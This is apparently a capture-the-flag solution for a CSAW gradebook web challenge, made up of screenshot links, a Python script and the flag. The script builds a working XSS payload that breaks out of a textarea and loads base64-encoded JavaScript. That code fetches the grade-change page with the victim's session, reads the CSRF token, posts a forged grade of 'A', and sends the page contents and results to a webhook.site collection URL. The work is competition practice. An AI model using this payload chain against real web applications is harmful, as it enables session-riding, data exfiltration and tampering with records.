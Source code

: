 
<img width="664" height="416" alt="image" src="https://github.com/user-attachments/assets/ab144e77-7118-427e-917b-882e9d252f4d" />


<img width="743" height="158" alt="image" src="https://github.com/user-attachments/assets/0b3f65b8-ff3e-42e7-8002-5f48c277109d" />

<img width="513" height="468" alt="image" src="https://github.com/user-attachments/assets/65d6e3ac-9e18-4815-81f0-a3ceb49ad097" />

<img width="943" height="157" alt="image" src="https://github.com/user-attachments/assets/716f57ad-c272-4ad6-879c-00102934a673" />

<img width="916" height="628" alt="image" src="https://github.com/user-attachments/assets/b201e952-83bd-4ed1-b34e-d3e5ccad137b" />

<img width="1865" height="684" alt="image" src="https://github.com/user-attachments/assets/f697cc86-6819-438b-b59c-11fea88abb08" />

```
import base64

class_ids = [
    "93bf63a7-c8ad-4092-bd32-136944ad9584",
    "bb7b4ab6-7e43-4e04-914d-f1c5f897dfa5",
    "d9c836fd-a5ca-4d44-a241-e8428447e5cf",
    "8938a046-e7c5-4402-84b7-36980f2eede6",
    "278614a5-3c34-41a9-9e30-3f4b0b621f9b"
]

student_id = "757729e2-45e5-4dfb-be55-814da78f4936"


def generate_xss_payload():
    # Your exact JavaScript code
    js_code = """
fetch('https://gradebook-app.ctf.csaw.io/grade-change',{method:'GET',credentials:'include'})
.then(r=>r.text())
.then(d=>{
    new Image().src='https://webhook.site/adba0a28-6810-4262-9e4e-08d620900ebb?html='+btoa(d);
    const t=new DOMParser().parseFromString(d,'text/html').querySelector('input[name="csrf_token"]').value;
    fetch('https://gradebook-app.ctf.csaw.io/grade-change',{
        method:'POST',
        credentials:'include',
        headers:{'Content-Type':'application/x-www-form-urlencoded'},
        body:new URLSearchParams({
            csrf_token:t,
            student_id:'757729e2-45e5-4dfb-be55-814da78f4936',
            class_id:'8938a046-e7c5-4402-84b7-36980f2eede6',
            grade:'A'
        })
    }).then(r=>r.text()).then(r=>{new Image().src='https://webhook.site/adba0a28-6810-4262-9e4e-08d620900ebb?result='+btoa(r)})
})
.catch(err=>{
    new Image().src='https://webhook.site/adba0a28-6810-4262-9e4e-08d620900ebb?error='+btoa(err.message)
});
"""
    js_code = ' '.join(js_code.split()).replace(' {', '{').replace(' }', '}')
    js_b64 = base64.b64encode(js_code.encode('utf-8')).decode('ascii')
    payload = f'</textarea><script src="data:application/javascript;base64,{js_b64}"></script>'
    return payload


xss_payload = generate_xss_payload()
print(xss_payload)

```



flag: `csawctf{y0u_m@de_the_h@cking_h0n0r_r0ll}`
